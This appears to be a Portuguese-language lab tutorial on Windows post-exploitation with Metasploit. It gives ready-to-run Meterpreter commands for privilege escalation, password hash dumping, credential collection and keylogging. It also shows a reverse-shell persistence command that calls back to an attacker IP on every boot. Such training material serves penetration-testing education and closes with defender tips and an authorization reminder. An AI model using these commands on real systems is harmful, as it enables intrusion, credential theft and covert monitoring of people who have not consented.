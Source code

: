 # Pós-Exploração em Sistemas

## Objetivo Geral

Aprender técnicas avançadas de pós-exploração para manter acesso persistente e extrair dados de sistemas comprometidos.

---

## Pré-requisitos

- Conhecimento básico de linha de comando Linux.
- Familiaridade com conceitos de exploração de vulnerabilidades.

---

## Etapa 1: Escalonamento de Privilégios no Windows

### Conceitos Fundamentais

- **Pós-Exploração**: Ações realizadas após obter acesso inicial (shell/Meterpreter).
- **Escalonamento de Privilégios**: Elevar permissões de usuário padrão para admin/root.

### Técnicas Comuns

1. **Exploração de Misconfigurações**:
   - Serviços com permissões inadequadas.
   - Arquivos executáveis com permissões de escrita.
2. **Uso de Ferramentas**:
   - `getsystem` (Meterpreter).
   - `Windows-Exploit-Suggester` para identificar vulnerabilidades.

### Prática

1. Obtenha um shell básico na VM Windows.
2. Execute comandos para verificar privilégios:
   ```cmd
   whoami /priv
   ```
3. Utilize módulos do Metasploit como `exploit/windows/local/bypassuac`.

---

## Etapa 2: Extração de Dados com Metasploit

### Ferramentas-Chave

- **Meterpreter**: Sessão avançada para coleta de dados.
- **Comandos Úteis**:
  ```meterpreter
  hashdump          # Extrai hashes de senhas SAM
  screenshot        # Captura tela do alvo
  keyscan_start     # Inicia keylogger
  ```

### Fluxo de Trabalho

1. Estabeleça uma sessão Meterpreter:
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   exploit
   ```
2. Extraia credenciais:
   ```meterpreter
   run post/windows/gather/credentials/credential_collector
   ```

---

## Etapa 3: Módulos de Pós-Exploração no Metasploit

### Categorias de Módulos

| Tipo                      | Descrição                | Exemplo                          |
| ------------------------- | ------------------------ | -------------------------------- |
| **Extract Credentials**   | Coleta senhas e hashes.  | `post/windows/gather/hashdump`   |
| **Privilege Escalation**  | Eleva privilégios.       | `exploit/windows/local/ms16_032` |
| **Information Gathering** | Coleta dados do sistema. | `post/multi/gather/env`          |
| **Spy/Capture**           | Monitora atividades.     | `post/windows/capture/keylog`    |

### Prática

1. Liste módulos disponíveis:
   ```bash
   search post/
   ```
2. Execute um módulo de coleta:
   ```bash
   use post/windows/gather/enum_logged_on_users
   run
   ```

---

## Etapa 4: Persistência de Sessão

### Técnicas de Persistência

1. **Módulo `persistence`**:

   ```meterpreter
   run persistence -X -i 60 -p 4444 -r 192.168.1.100
   ```

   - `-X`: Inicia na inicialização do sistema.
   - `-i 60`: Tentativas de reconexão a cada 60 segundos.

2. **Alternativas**:
   - Adicionar tarefas agendadas (`schtasks`).
   - Modificar chaves de registro (`HKLM\Software\Microsoft\Windows\CurrentVersion\Run`).

### Validação

1. Reinicie a VM alvo.
2. Reconecte-se usando o mesmo handler:
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   exploit
   ```

---

## Boas Práticas e Mitigação

- **Para Defensores**:
  - Monitorar processos não autorizados.
  - Restringir permissões de usuários.
  - Atualizar sistemas regularmente.
- **Para Testes Éticos**:
  - Sempre obter autorização por escrito.
  - Documentar todas as ações realizadas.

**Nota**: Estas técnicas devem ser usadas apenas em ambientes controlados e com consentimento explícito.
